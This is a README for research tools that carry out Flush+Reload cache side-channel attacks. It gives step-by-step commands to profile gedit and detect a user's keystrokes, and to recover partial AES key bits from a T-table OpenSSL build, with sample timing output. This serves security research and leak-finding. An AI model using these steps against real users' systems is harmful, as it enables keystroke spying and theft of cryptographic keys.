# Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks and OpenSSL AES T-Table attack.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (2014).

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper by Gruss, Spreitzer and Mangard was published at USENIX Security 2015.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration 10
```
This program should print a histogram for cache hits and cache misses. The number specifies the bucket size for the histogram.

## Profiling
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
cat /proc/`pidof gedit`/maps | grep libgedit | grep "r-x"
7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step.

During the profiling you need to perform or simulate a huge number of key presses. The profiling tool gives you 2 seconds of time to switch windows, e.g., to an already opened gedit window.

On Linux, run the following lines:
```
cd profiling
make
./spy 155 100 7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```

Choose a cache line with a nice number of cache hits and pass it to the generic exploitation spy tool:
```
cd exploitation
make
./spy 155 /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so 0x22980
```
Now this tool prints a message exactly when a user presses a key (in gedit).
This spy tool can also be used on Windows just like that.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well.

## OpenSSL AES T-Table attack

### Manual attack - Profiling phase
In order to enable the T-Table based AES implementation, the use of a self-compiled OpenSSL library is  required. Additionally, `libcrypto.so.1.0.0` need to be placed in the folder `profiling_aes_example` and the program must run it as a shared library.  
Then run
```
cd profiling_aes_example
make
./spy
```
 
The small set of frequently accessed addresses (*i.e.*, 64) makes it easy to locate the T-table in the log file.  
To successfully complete the *profiling* phase, the initial encryptions run should be performed using a dummy key (included in `spy.cpp` code), for example:  
```
0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,   
0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F
```

In this phase, the goal is to observe 64 consecutive offsets showing a "*diagonal pattern*" and to understand the range used during the encryption; here's an example of profiling the first key byte with `NUMBER_OF_ENCTRYPTION` = 1200:  
```
0x16e540,2100,1925,1924,1923,1949,1928,1934,1933,1921,1926,1926,1900,1921,1942,1938,1933
0x16e580,1925,2100,1929,1922,1917,1924,1908,1945,1916,1911,1931,1935,1945,1928,1942,1938
0x16e5c0,1924,1917,2100,1937,1915,1942,1906,1931,1941,1939,1936,1934,1945,1958,1935,1909
0x16e600,1940,1912,1925,2100,1928,1929,1920,1911,1926,1920,1927,1926,1933,1928,1938,1926
0x16e640,1928,1916,1943,1932,2098,1918,1947,1943,1919,1915,1928,1906,1910,1939,1923,1932
0x16e680,1930,1930,1910,1924,1946,2100,1938,1950,1902,1931,1915,1943,1909,1921,1922,1934
0x16e6c0,1919,1932,1925,1915,1919,1913,2100,1937,1915,1908,1939,1915,1922,1915,1927,1918
0x16e700,1930,1932,1929,1935,1926,1942,1926,2100,1922,1937,1951,1927,1938,1951,1941,1942
0x16e740,1908,1932,1937,1931,1914,1921,1927,1947,2100,1903,1945,1923,1935,1897,1927,1936
0x16e780,1950,1949,1933,1945,1930,1939,1945,1948,1932,2099,1938,1942,1924,1919,1911,1907
0x16e7c0,1929,1921,1922,1928,1947,1924,1933,1934,1932,1924,2100,1930,1917,1935,1920,1943
0x16e800,1937,1934,1924,1900,1924,1934,1938,1930,1936,1910,1935,2100,1908,1941,1925,1933
0x16e840,1913,1914,1938,1936,1946,1939,1930,1932,1917,1946,1932,1938,2100,1917,1928,1937
0x16e880,1938,1934,1928,1932,1941,1945,1938,1942,1930,1944,1943,1923,1941,2100,1926,1933
0x16e8c0,1928,1908,1949,1930,1928,1926,1936,1931,1940,1919,1918,1926,1921,1917,2098,1930
0x16e900,1934,1923,1929,1932,1935,1938,1946,1927,1901,1950,1935,1927,1936,1934,1935,2100
```

Obviously, it's important to have a pattern with 2100 cycles along the diagonal, or values very close to 2100, such as 2099 or 2098.


### Manual attack - Exploitation phase
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the *expoitation* phase, the spy tool must trigger encryptions itself using the realistic key - comment out the dummy key (or replace/add a realistic key) and run the encryptions. After 64 encryptions, the upper 4 bits of each key byte can be trivially determined.  

The following lines show an example of output for the first key byte (in fact we can see the same offsets of the previous example):  
```
0x16e540,1916,1910,1918,1930,1953,2100,1912,1923,1936,1926,1947,1926,1941,1929,1934,1921
0x16e580,1930,1946,1923,1923,2100,1936,1907,1947,1901,1906,1952,1934,1927,1952,1920,1934
0x16e5c0,1926,1929,1945,1930,1926,1934,1951,2099,1950,1943,1928,1956,1915,1913,1944,1956
0x16e600,1939,1904,1934,1932,1939,1917,2100,1941,1923,1915,1918,1930,1934,1955,1911,1920
0x16e640,1921,2100,1933,1926,1929,1937,1922,1924,1925,1932,1939,1928,1929,1933,1931,1928
0x16e680,2100,1930,1951,1936,1905,1929,1932,1917,1917,1932,1913,1928,1898,1943,1937,1919
0x16e6c0,1937,1941,1921,2100,1918,1931,1896,1938,1925,1925,1915,1931,1920,1924,1928,1943
0x16e700,1914,1944,2100,1905,1928,1926,1920,1944,1923,1934,1917,1946,1915,1940,1916,1943
0x16e740,1925,1941,1927,1933,1935,1915,1942,1926,1908,1938,1937,1932,1930,2100,1924,1921
0x16e780,1931,1933,1933,1926,1926,1938,1935,1927,1930,1929,1935,1923,2099,1941,1947,1920
0x16e7c0,1951,1944,1933,1915,1935,1937,1917,1924,1929,1914,1929,1920,1920,1940,1945,2100
0x16e800,1948,1923,1908,1937,1932,1944,1937,1934,1940,1951,1919,1945,1924,1917,2100,1939
0x16e840,1921,1938,1942,1918,1940,1958,1940,1909,1920,2099,1938,1907,1923,1929,1927,1939
0x16e880,1912,1942,1940,1933,1922,1919,1949,1936,2100,1914,1915,1931,1926,1943,1946,1944
0x16e8c0,1919,1901,1937,1907,1940,1932,1950,1923,1948,1931,1904,2098,1916,1930,1922,1918
0x16e900,1930,1937,1951,1920,1931,1945,1935,1936,1904,1922,2100,1940,1918,1961,1931,1932
```

To perform the attack manually, repeat this process for each key byte; after completing all runs you will obtain the upper 4 bits of every key byte. Note that if you proceed manually you will also need to appropriately modify the corresponding sections of `spy.cpp` between runs (for example toggling the dummy/real key, adjusting the target byte index, ecc...). If you prefer to automate the process, see the following section.

### Semi-automatic attack
If you prefer to test `spy.cpp` atomatically, you can configure `libcrypto.so.1.0.0` as described above and then run the tool:
```
cd profiling_aes_example
python3 run_attack.py
```

This tool automates both the profiling and exploitation phases: it modifies and executes the necessary code and generates the corresponding output files. For reasons of execution time and readability, the tests are performed only on the first 4 bytes of the key by default, but you can modify `run_attack.py` to run the attack on all key bytes (note that completing the full process will require significantly more time depending on your hardware).

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 


That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.

### Output interpretation
The interpretation of the output files is straightforward: the *profiling* phase yields the correct 64 offset range we are interested in, and the *exploitation* phase shows the cycle counts in the columns that allow us to infer the 4 Most-Significant Bits of each key byte.  

T-tables work such that an entry corresponds to $T[K_i \oplus P_i]$ (where $K_i$ is a single key byte and $P_i$ is a single plaintext byte). Knowing only the table index and the plaintext byte makes it possible to deduce the desired information about a secret key.  

Using the example above, for the first key byte we know that `0x16e540` corresponds to index $0$ of the used T-table (offset deduced during profiling), while the highest cycle count ($2100$) from the exploitation output appears in column 6. Since the plaintext byte increases by 16 for each column (starting from $0$), the plaintext byte at column $6$ is $16 \cdot 5 = 80_{10} = 0x50$. Because we are only interested in the upper 4 bits, we consider only $0x5$.  

Now, given the **_XOR_** operation in this AES implementation, we can easily deduce that $0x0 \oplus 0x5 = 0x5$, which corresponds to the upper 4 bits of the real key used in this test.  

The same principle can be applied to all identified T-table entries, up to 64.